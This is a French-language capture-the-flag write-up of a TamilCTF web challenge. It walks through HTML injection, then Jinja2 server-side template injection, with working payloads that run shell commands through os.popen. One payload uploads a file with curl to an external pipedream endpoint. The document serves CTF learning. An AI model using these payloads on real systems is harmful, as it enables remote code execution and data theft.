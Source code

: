 ```yaml
---
layout: post
title: "Open Flag (web)"
date: 2021-09-29
categories: tamilctf
---
```


Ce challenge fait partie des challenges web.

Lorsque j'ouvre la page pour débuter le challenge, une page de login apparaît.

![1](https://user-images.githubusercontent.com/16634117/135445836-71bcee4f-83c2-4b99-9e5b-8a7346de9a6d.png)

Je tente d'abord un login aléatoire toto/toto afin de voir ce qu'il se passe, je tombe directement sur une nouvelle page m'indiquant la présence du flag dans l'image flag.jpg.

![2](https://user-images.githubusercontent.com/16634117/135445985-2c9546a9-d679-4bc4-907c-4f0f226c9380.png)

Tout naturellement, je tente d'accéder à cette image.

![1-1](https://user-images.githubusercontent.com/16634117/135446040-999b482c-fcb2-4f09-b21e-aed6fe260d04.png)

Evidemment rien...

Je décide donc de jeter un œil au html de la page précédente.

![3](https://user-images.githubusercontent.com/16634117/135446161-86e363f8-f8a7-418f-89ab-3dd2cb35b762.png)

En commentaire, se trouve "Hello" suivi du nom utilisé pour le login. Je tente donc de transformer cela pour pouvoir insérer des balises html en bypassant le commentaire.

![4](https://user-images.githubusercontent.com/16634117/135446343-6e6e8694-8b95-4c6b-a527-e0db4e475b1f.png)

Et le résultat :

![5](https://user-images.githubusercontent.com/16634117/135446394-f641c8f6-06a9-45cd-b23b-7f35939daab6.png)

Je peux donc injecter du code dans la page... Mais aucune notion d'admin qui doit passer pour vérifier quoi que ce soit, j'écarte donc rapidement la possibilité d'un vol de session.

Je jette un petit coup d'œil aux requêtes et je vois un indice intéressant, le serveur est en python.

![6](https://user-images.githubusercontent.com/16634117/135446526-9d564211-ff3d-4673-b42b-97ddca26be8d.png)

Je me suis souvenu d'un challenge root-me visant à injecter des templates pour exécuter du code, je me dis que cette piste est intéressante.

Pour vérifier mon hypothèse, il me suffit d'injecter un template tout simple comme {% raw %} `{{7 * 7}}` {% endraw %}; si le serveur effectue la multiplication, alors la faille est exploitable.

![7](https://user-images.githubusercontent.com/16634117/135446757-0a62b6c5-39e7-48fc-8411-70cfe397e1a9.png)

![8](https://user-images.githubusercontent.com/16634117/135446779-5f18bf36-d53b-462b-be69-efdd52dfc581.png)

Le code est exécuté !

À partir de là, un petit détour sur le [repo github payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) va me donner une liste d'injections qui me permettra d'arriver à mes fins.

Je tente d'abord de trouver l'uid côté serveur, la charge est la suivante :

{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}`
{% endraw %}

Et la réponse :

![9](https://user-images.githubusercontent.com/16634117/135447259-653f1ee8-ce80-4d18-af7a-2056153b9f01.png)

Intéressant... Voyons voir si je peux lister les fichiers à la racine du serveur web :
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}`
{% endraw %}

Et la réponse :

![10](https://user-images.githubusercontent.com/16634117/135447364-34f4895c-3e2b-4d8f-ac02-f1e9a1c9ef17.png)

J'essaye donc de récuperer l'image en base 64
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('base64 flag.jpg').read() }}`
{% endraw %}
La réponse est vide... Il y a effectivement un fichier "flag.jpg" mais les droits m'empechent d'y accéder.

Je copie donc l'image dans le répertoire `/tmp` pour travailler proprement.
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cp flag.jpg /tmp/flag.jpg').read() }}`
{% endraw %}
Je fais maintenant un end point de récupération de requêtes grâce au site [requestbin](https://requestbin.com/?gclid=EAIaIQobChMIw426kM2m8wIVWMvICh31gwmLEAAYASAAEgIPHfD_BwE)

Et je tente d'envoyer une requête à partir du serveur, afin de vérifier que je peux sortir en http :

{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl https://en0siis5jevxc.x.pipedream.net').read() }}`
{% endraw %}
La réponse sur le site :

![12](https://user-images.githubusercontent.com/16634117/135448042-d73f89f5-a574-4d81-b3a9-27afb02097c1.png)

Et sur mon endpoint :

![13](https://user-images.githubusercontent.com/16634117/135448075-7e8221cf-0818-417f-b38b-f0048a70b010.png)

J'ai donc tous les élements pour terminer le challenge :
{% raw %}
`--> {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl -F "image=@/tmp/flag.jpg" https://en0siis5jevxc.x.pipedream.net').read() }}`
{% endraw %}
Qui me donne :

![14](https://user-images.githubusercontent.com/16634117/135448201-56f99f3f-77c5-407f-8023-d8787beb47a6.png)

Je récupère cette donnée brute et la retransforme en image :

![file](https://user-images.githubusercontent.com/16634117/135448266-7c4f2636-15cf-4c61-8cd1-b801bca70199.png)

Bingo !
